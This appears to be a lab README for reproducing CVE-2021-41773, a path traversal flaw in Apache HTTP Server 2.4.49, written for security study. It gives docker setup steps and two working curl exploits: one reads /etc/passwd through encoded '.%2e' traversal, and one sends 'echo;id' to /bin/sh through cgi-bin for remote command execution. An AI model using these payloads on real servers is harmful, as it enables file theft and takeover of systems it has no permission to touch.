

Path traversal and file disclosure vulnerability in Apache HTTP Server 2.4.49 (CVE-2021-41773)¶
The Apache HTTP Server Project is an effort to develop and maintain an open-source HTTP server for modern operating systems including UNIX and Windows.
A flaw was found in a change made to path normalization in Apache HTTP Server 2.4.49. An attacker could use a path traversal attack to map URLs to files outside the expected document root.
If files outside of these directories are not protected by the usual default configuration "require all denied", these requests can succeed. If CGI scripts are also enabled for these aliased pathes, this could allow for remote code execution.
References:
- https://httpd.apache.org/security/vulnerabilities_24.html
- https://twitter.com/ptswarm/status/1445376079548624899
- https://twitter.com/HackerGautam/status/1445412108863041544
- https://twitter.com/snyff/status/1445565903161102344
Vulnerable environment¶
Execute following commands to start a vulnerable Apache HTTP Server:
docker compose build
docker compose up -d
After the server is started, you can see the default page which says It works! of Apache HTTP Server through http://your-ip:8080.
Exploit¶
A simple CURL command to reproduce the vulnerability (Note that /icons/ must be a existing directory):
curl -v --path-as-is http://your-ip:8080/icons/.%2e/%2e%2e/%2e%2e/%2e%2e/etc/passwd
The /etc/passwd is disclosured successfully:

With the mods cgi or cgid enabled on the server, this path traversal vulnerability would allow arbitrary command execution:
curl -v --data "echo;id" 'http://your-ip:8080/cgi-bin/.%2e/.%2e/.%2e/.%2e/bin/sh'